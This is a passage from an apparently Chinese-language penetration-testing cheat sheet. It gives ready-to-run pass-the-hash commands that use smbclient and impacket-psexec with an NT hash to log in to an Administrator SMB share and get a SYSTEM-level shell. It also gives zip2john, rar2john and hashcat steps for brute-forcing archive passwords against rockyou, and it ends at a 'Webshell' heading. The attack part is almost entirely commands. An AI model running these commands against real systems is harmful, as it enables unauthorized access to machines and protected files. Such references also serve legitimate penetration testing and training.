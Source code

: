   * 使用NTMLhash 登录远程smb服务
    ```bash
    smbclient //192.168.2.200/secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
    ```
    
  * 使用NTMLhash返回一个反弹shell
    ```bash
    impacket-psexec -hashs 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.2.200
    ```
    psexec会使用NTML hash登录目标文件共享，并且写入shell，通过设置windows 服务执行shell，获得反弹shell
    获取system32权限
    或者使用wpexec获取目标administrator权限
    



https://www.freebuf.com/articles/network/190128.html

https://www.icekam.com/post/wfuzz-web-blasting-and-exhaustive-tools/

### 【破解压缩包】

* **破解zip**
  * 使用zip2john转化为hash
    ```bash
    zip2john abc.zip > abc.hash
    ```
  * 修改abc.hash文件
    ```
    修改前：
    zipdecrypt.txt.zip/zipdecrypt.txt:$pkzip$1*2*2*0*37*2b*887a34f6*0*48*0*37*b859.....
    修改后：
    $pkzip$1*2*2*0*37*2b*887a34f6*0*48*0*37*b859*4041d4c6ce......
    ```
  * 使用hashcat爆破
    ```bash
    hashcat -m 17225 abc.hash /usr/wordlist/rockyou.txt
    ```
  
* **破解rar**
  * 使用rar2john转化
    ```bash
    rar2john abc.rar > abc.hash
    ```
  * 修改hash文件
  * 使用hahscat爆破
    ```bash
    hashcat -m 13000 abc.hash wordlist.txt
    ```


&nbsp;

## Webshell
